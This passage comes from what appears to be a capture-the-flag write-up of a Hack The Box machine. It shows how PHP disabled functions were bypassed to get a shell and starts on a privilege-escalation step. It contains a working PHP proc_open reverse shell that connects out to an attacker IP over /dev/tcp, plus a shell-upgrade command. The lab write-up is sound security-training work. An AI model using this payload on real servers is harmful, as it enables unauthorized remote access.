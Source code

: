 <figure><img src="../../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Huh, it's an **Internal Server Error**. Considering that the previous attempt worked well, chances are [some PHP functions are disabled](https://www.php.net/manual/en/ini.core.php#ini.disable-functions). This is done using `disabled_functions`, and we can check by running `phpinfo()`, so let's do that:

```
disable_functions:

pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,pcntl_unshare,error_log,system,exec,shell_exec,popen,passthru,link,symlink,syslog,ld,mail,stream_socket_sendto,dl,stream_socket_client,fsockopen
```

There are a **lot** of disabled functions, but one that is not disabled is `proc_open()`. This can be found using the tool [dfunc-bypasser](https://github.com/teambi0s/dfunc-bypasser), as recommended by [ippsec](https://www.youtube.com/watch?v=yW_lxWB1Yd0) and [0xdf](https://0xdf.gitlab.io/2023/01/21/htb-updown.html#devsiteisuphtb). A `proc_open()` reverse shell can be pretty simple:

```php
<?php
        $descriptor_spec = array(
                0 => array("pipe", "r"),
                1 => array("pipe", "w"),
                2 => array("pipe", "w")
        );
        $cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.22/4000 0>&1'";
        
        proc_open($cmd, $descriptor_spec, $pipes);
?>
```

A basic reverse shell to port 4000. Let's do the exact same thing and pray it works.

<figure><img src="../../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Which it does! We upgrade the shell quickly using

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Privesc to Developer

A quick check in `/home` tells us there is a `developer` user. If we go into their home directory then `/dev`, there is a SUID binary named `siteisup` with the source code `siteisup.py`. We can read `siteisup.py`:

```python
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
	print "Website is up"
else:
	print "Website is down"
```
